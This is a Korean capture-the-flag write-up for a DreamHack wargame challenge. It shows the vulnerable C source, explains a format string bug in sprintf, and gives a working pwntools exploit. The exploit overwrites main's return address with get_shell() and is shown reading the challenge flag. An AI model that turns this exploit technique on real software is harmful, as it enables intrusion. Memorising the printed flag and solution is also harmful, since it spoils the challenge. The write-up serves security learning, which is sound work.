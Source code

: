 # [DreamHack] basic_exploitation_003

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_003)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_exploitation_003.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548725/basic_exploitation_003.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160267191-f843e10c-2acb-44b1-b66c-66bf5e81df07.png)

## Analysis

```c
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

`sprintf(stack_buf, heap_buf)`에서 `heap_buf`가 format string의 역할을 해서 FSB가 발생한다. 서식 지정자를 이용해서 `stack_buf`에 들어가는 문자열의 길이를 늘릴 수 있고, `main()`의 return address를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_exploitation_003')
else:
    r = remote('host1.dreamhack.games', 22665)

get_shell = 0x8048669  # get_shell()

r.send(b'%156c' + p32(get_shell))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 22665: Done
[*] Switching to interactive mode
ECHO :
        i\x86\x04
$ cat flag
DH{4e6e355c62249b2da3b566f0d575007e}
```